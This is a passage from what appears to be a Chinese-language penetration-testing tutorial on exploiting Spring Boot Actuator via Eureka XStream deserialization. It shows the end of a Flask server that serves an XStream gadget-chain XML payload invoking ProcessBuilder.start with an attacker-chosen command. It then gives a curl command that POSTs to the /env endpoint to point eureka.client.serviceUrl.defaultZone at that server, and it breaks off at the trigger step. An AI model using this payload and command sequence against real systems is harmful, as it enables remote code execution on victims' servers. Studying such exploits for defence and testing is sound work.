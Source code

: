 ```plain
                    <redirectErrorStream>false</redirectErrorStream>
                  </next>
                </iter>
                <filter class="javax.imageio.ImageIO$ContainsFilter">
                  <method>
                    <class>java.lang.ProcessBuilder</class>
                    <name>start</name>
                    <parameter-types/>
                  </method>
                  <name>foo</name>
                </filter>
                <next class="string">foo</next>
              </serviceIterator>
              <lock/>
            </cipher>
            <input class="java.lang.ProcessBuilder$NullInputStream"/>
            <ibuffer></ibuffer>
          </is>
        </dataSource>
      </dataHandler>
    </value>
  </jdk.nashorn.internal.objects.NativeString>
</linked-hash-set>""".format(command=command)
  return Response(xml, mimetype='application/xml')


if __name__ == "__main__":
    app.run(host='0.0.0.0', port=8090)
```

**(2) 设置 eureka.client.serviceUrl.defaultZone 属性**

\*有的话这里要先记录下本来的属性值

```plain
curl -H 'Content-Type: application/x-www-form-urlencoded' -X POST --data "eureka.client.serviceUrl.defaultZone=http://127.0.0.1:8090/xxxxxsuibiantianxx" http://localhost:9093/env
```

成功设置，如下图所示：

[![](assets/1711556137-a2c7daabd702169a08a1f9202ce6abfd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210620111901-4237859e-d176-1.png)

**(3) 触发**

